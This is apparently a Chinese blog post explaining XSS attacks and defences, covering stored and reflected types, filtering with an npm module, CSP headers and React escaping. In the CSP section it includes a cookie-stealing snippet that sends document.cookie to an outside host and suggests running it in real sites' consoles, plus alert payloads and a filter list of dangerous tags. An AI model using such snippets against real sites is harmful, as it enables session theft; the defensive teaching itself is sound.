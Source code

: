 ```yaml
---
layout: post
title: "「Progress」转 addEventListener()与attachEvent()区别分析"
subtitle: " From CSDN"
author: "Yuzj"
header-img: "img/post-bg-web.jpg"
header-mask: 0.3
catalog: true
tags:
- A Little Progress
- JavaScript
---
```


# 今日讨论

你了解 XSS 攻击么 

# 结果

```
网络千万条，安全第一条。网安不规范，网站都完蛋!
```

作为前端工程师接触最多的漏洞我想就是 XSS 漏洞了，然鹅并不是所有的同学对其都有 一个清晰的认识。这篇文章将带领大家认清 XSS 攻击，以及对于 XSS 攻击该如何防范。 

## 什么是 XSS 攻击 

# XSS攻击那些事儿

​    2011年4月30日，人人站内信遭到XSS攻击。造成人ID，姓名，学校，手机号，QQ大约
​    2011年6月28日，新浪微博远程XSS攻击，微博用户中招后会自动向自己的粉丝发送含毒私信和微博，有人点击后会再次中毒，形成恶性循环

## 一，XSS攻击介绍

### 1.介绍

​    跨站脚本攻击（跨站点脚本），XSS攻击通常指的是通过利用网页开发时留下的漏洞，恶意攻击者往Web页面里插入恶意脚本代码，当用户浏览时，嵌入其中Web里面的脚本代码会被执行，从而达到恶意攻击用户的目的

### 2.危害

​    据近几岁年OWASP（OWASP是世界上最知名的Web安全与数据库安全研究组织）统计XSS占所有web攻击的22％，高居所有web威胁榜首

- 流量劫持
- 获取用户cookie信息，盗取账号
- 篡改，删除页面信息
- 配合CSRF攻击，实施进一步的攻击
- ······

## 二，XSS攻击类型

![photo 2020-01-20%20%E4%B8%8B%E5%8D%8811.56.28](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.28.png)

### 1.存储型XSS

- 存储型XSS浏览即被触发

  ![XSS类型](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.36.png)

  ### 2.反射型XSS

- 反射型XSS需要欺骗用户操作触发（知乎，京东已经做成转义，没有转义的情况下会被触发）

  # [![XSS类型](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.44.png)

## 三，XSS攻击流程

### 1.寻找突破

- 留言系统

- 邮件系统

- 评论系统

- 富文本编辑器

  上面这些都是XSS攻击的“重灾区”，因为它们都有共同点：

  ![XSS重灾区](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.50.png)

  ### 2.构造攻击代码

  ![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.56.56.png)

  ![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.02.png)

  ### 3.注入代码

- 验证攻击是否有效总结，XSS的整个流程大致如下：
  [![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.13.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_10.png)

  [![XSS攻击代码](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.19.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_11.png)

## 四，XSS预防

### 1.特殊字符过滤

```
<script><script>
<style></style>
a，href | events
img，src | events
style=“width: expression(xxx)”
```

推荐[♡](http://jsxss.com/zh/index.html) xss npm模块[jsxss.com/zh/index.ht…](http://jsxss.com/zh/index.html)

```
import xss from ‘xss’;
const html = xss(‘<script>alert(“xss”)</script>’)
```

![photo 2020-01-20%20%E4%B8%8B%E5%8D%8811.57.25](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.25.png)[![特殊字符过滤](https://user-gold-cdn.xitu.io/2017/11/19/15fd45533001a817?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_12.png)

### 2. CSP

​    内容安全策略（Content Security Policy），实质上就是白名单制度，开发者明确告诉客户端，某些外部资源可以加载和执行，大大增强了网页的安全性。

- 客户端设置

  ```
  <meta http-equiv="Content-Security-Policy" content="default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval' ">
  ```

- 服务器设置

  ```
  setHeader(‘Content-Security-Policy’, default-src *.meituan.com  imeituan://* *.dianping.com 'self' 'unsafe-inline' ‘unsafe-eval')
  ```

- CSP浏览器兼容性，安卓和IE支持不太理想的研究者的话可以在 [waimai.meituan.com](http://waimai.meituan.com/)和[ele.me](http://ele.me/)的控制台测试以下代码看看会发生什么
  [![CSP](https://pg12138.oss-cn-beijing.aliyuncs.com/assets/in-post/2019-1-21/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202020-01-20%20%E4%B8%8B%E5%8D%8811.57.34.png)](http://www.keycode.me/2017/10/21/编程/XSS攻击那些事儿/xss_13.jpg)

  ```
  function sendCookie(){
   var img = document.createElement('img');
   img.src = 'https://keycode.me?cookie=' + document.cookie;
   document.body.appendChild(img);
   document.body.removeChild(img);
  }
  sendCookie();
  ```

并非预防了XSS，还是预防了XSS更深入的危害。CSP的具体介绍请戳[www.w3.org/TR/CSP1/](https://www.w3.org/TR/CSP1/)

### 3.XSS与反应

​    React官方文档是这么说的，JSX防止注入攻击

- 默认情况下，React DOM在呈现它们之前先转义JSX中嵌入的任何值。因此，它确保您永远不会注入未在应用程序中明确编写的任何内容。一切在呈现之前都会转换为字符串。这有助于防止XSS攻击。[facebook.github.io/react/docs/…](https://facebook.github.io/react/docs/introducing-jsx.html)

- 但事情也不是绝对的，在利用危险SetInnerHTML注入html时也要注意过滤特殊字符

  ```
  <div dangerouslySetInnerHTML={{__html: `<script>alert(‘XSS’)</script>`}} />
  ```